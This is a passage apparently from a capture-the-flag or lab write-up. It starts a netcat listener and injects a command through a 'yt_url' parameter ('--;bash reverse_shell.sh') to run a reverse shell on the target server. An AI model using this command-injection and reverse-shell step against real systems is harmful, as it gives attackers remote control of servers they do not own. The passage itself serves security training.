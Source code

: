 <figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

Now, let's set up a `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
```

Next, we have to execute the `reverse_shell.sh` file on the server using the following:

```
yt_url=--;bash    reverse_shell.sh
```

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>
